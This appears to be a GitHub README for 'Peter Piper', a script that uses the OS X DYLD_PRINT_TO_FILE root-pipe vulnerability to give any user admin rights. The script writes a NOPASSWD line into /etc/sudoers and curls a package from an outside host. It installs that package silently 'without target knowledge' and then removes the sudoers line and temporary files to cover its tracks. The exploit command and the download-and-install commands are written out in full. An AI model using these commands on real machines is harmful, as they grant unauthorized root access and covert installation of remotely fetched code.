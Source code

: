 # Peter Piper Documentation #

__1. INTRODUCTION__
<br>
This script was made as an alternative to legitimate authentication in Applescript. This script uses a method of exploitation in OS X  called root piping.

<br>

__2. EXPLOIT__
<br>
This exploit uses a vulnerability that was properly fixed in OS X 10.10.5. It’s reference information is [here](https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html).
This exploit gives whatever user that executes it admin instantly.

<br>

__3. INSTALL__
<br>
We use `cURL` to get the Java 8 Update 60 package onto the target computer and into a temporary directory, then the `installer` command featured in the OS X command line to install the .pkg we fetched. This is the correct command for this particular task because it skips the graphical installer meaning it can run behind the scenes without target knowledge.

<br>

__4. CLEANUP__
<br>
We first remove the temporary directory used to store the Java package during install, then we use the command `sed` to remove the target from the sudoers list.

<br>

__5. `function KeepSafe { }` & `trap`__
<br>
This is used to ensure the completion of the command if it fails.

<br>

<br>

## IN-DEPTH LOOK AT `function KeepSafe { }` COMMANDS ##

`echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;` ___- Exploit the machine___
<br>
`sudo bash -c ` ___- Create a root bash shell___
<br>
`if [[ $EUID -ne 0 ]]; then echo -e "\033[1mFailed! No root!\033[0m $(exit 1)";` ___- Check if the exploit actually worked, if not, exit the script___
<br>
`sudo mkdir -v /tmp$$;` ___- Make a temporary directory to store the package in___
<br>
`sudo curl -# http://thrifus.co/jump/j8u60.pkg > /tmp$$/j8u60.pkg;` ___- Get the package___
<br>
`sudo installer -verbose -pkg /tmp$$/j8u60.pkg -target LocalSystem;` - ___Install the package___
<br>
`sudo sed -i "" "/NOPASSWD:ALL/d" /etc/sudoers;` ___- Remove the line allowing root access without a password___
<br>
`rm -rfv /tmp$$;` ___- Remove the temporary directory___
